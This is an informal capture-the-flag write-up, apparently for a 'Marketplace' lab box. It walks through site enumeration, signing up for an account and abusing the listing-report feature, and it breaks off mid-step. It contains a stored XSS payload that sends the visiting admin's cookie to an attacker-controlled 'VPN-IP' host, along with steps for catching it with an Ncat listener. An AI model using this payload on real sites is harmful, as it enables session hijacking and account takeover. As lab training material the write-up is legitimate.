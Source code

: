 A Marketplace store a simple webpage ok let check the robots.txt ok we got only /admin i don't need to run a dirbuster, gobuster on the page to burst some directory it look pretty clean ok let try to check port 32768 node.js but it the same with port 80.

![Image](https://imgur.com/sTRZJg2.png)

So i go back to try to accesss the admin page but i get a blow lol yea.


![Image](https://imgur.com/Xhv8uCb.png)

Ok what to do what to do so let try the normal login page i try using admin/admin for both username and password but no user was found ok i try looking around so we found a sign up page.

![Image](https://imgur.com/XZMsnEZ.png)

![Image](https://imgur.com/GdiuuWF.png)

Cool let log in with the new credentials we just created.

![Image](https://imgur.com/UoEIFV4.png)

I check messages it was empty so i try looking around back to the homepage i click on one the item.

![Image](https://imgur.com/Rq4kzSN.png)

So we can contact the listing author wow but WTF am i going to contact the author telling him to send me the admin creds what a joke lol ok we can see report listing to admin let see what that do.

![Image](https://imgur.com/dImyOGs.png)

So i file a report in a few min i got a reply back from the admin.

![Image](https://imgur.com/UmsQt5O.png)

```From system Thank you for your report. We have reviewed the listing and found nothing that violates our rules.```

Cool the first thing that come to my mind is can i steal the admin cookie is the website vulnerable to XSS no harm in tring i guess so i try to create my own listing with a XSS payload.

```</p><script>window.location = 'http://VPN-IP/page?param=' + document.cookie </script><p>```

![Image](https://imgur.com/XwRiodk.png)

After creating your listing you will get unable to connect don't panic just go back to the homepage.

![Image](https://imgur.com/ntKVyl5.png)

Going back to the homepage we see our listing.

![Image](https://imgur.com/pMF8kVW.png)

Cool so what next to do is to start an Ncat listener on port 80.

![Image](https://imgur.com/uQS3lRO.png)

Ok now let report our listing to the admin yes i know we can't access our listing we get unable to connect what to is to note the id yes number of the listing we have two listing on the website already so we are the three listing which is 3.

```http://IP/report/3```

![Image](https://imgur.com/kWXwM0n.png)

Ok let click on report.

```